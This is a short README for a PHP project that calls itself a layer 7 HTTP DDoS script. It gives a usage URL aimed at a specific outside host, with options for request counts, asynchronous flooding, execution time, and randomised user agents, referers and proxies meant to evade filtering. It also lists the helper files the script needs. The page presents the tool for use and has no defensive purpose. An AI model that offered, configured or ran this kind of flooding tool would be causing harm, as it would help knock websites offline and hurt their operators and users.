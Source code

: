 # PHP-Curl-DDos-Script
layer 7 HTTP ddos script with full customization

Usage :-

http://localhost/curl.php?
host=http://androidapp.esy.es/search.php
&method=POST
&no_of_requests=1
&param_names[0]=search
&param_values[0]=rand
&show=1
&asyn_req=2
&exec_time=5
&reqheaders[0]=Content-Type:%20application/json
&rand_user_agent=1
&rand_referer=1
&rand_proxy=http

require files:-

rand_user_agent.php
rand_referer.php
